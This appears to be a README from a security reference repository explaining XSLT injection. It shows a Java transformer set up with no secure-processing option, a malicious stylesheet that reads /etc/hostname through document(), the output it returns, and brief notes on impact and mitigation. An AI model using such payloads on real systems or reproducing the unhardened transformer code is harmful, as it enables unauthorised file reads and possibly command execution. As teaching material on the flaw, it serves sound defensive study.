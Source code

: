 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xslt-injection/main/xslt-injection.png"></p>

A threat actor may interfere with an application's processing of extensible stylesheet language transformations (XSLT) for extensible markup language (XML) to read or modify data on the target

## Example #1
1. Threat actor submits a malicious request to a target that has a vulnerable XSLT processor
2. The target's XSLT processor parses the malicious file (Based on the processor and the version of the XSLT specification)

## Code
#### Target-Logic
```java
Result result = new StreamResult(System.out);
Source xslt = new StreamSource(new File("test.xslt"));
Source xml = new StreamSource(new File("test.xml"));
TransformerFactory factory = TransformerFactory.newInstance();
Transformer transformer = factory.newTransformer(xslt);
transformer.transform(xml, result);
```

#### Target-In
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xs">
  <xsl:template match="/">
    <xsl:copy-of select=" document('/etc/hostname')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XSLT Injection

## Risk
- Read & Write data
- Command Execution

## Redemption
- Secure processing

## ID
012e4a7b-b8ae-44a6-9b6f-08d24cf7dba2

## References
- [acunetix](https://www.acunetix.com/vulnerabilities/web/xslt-injection)
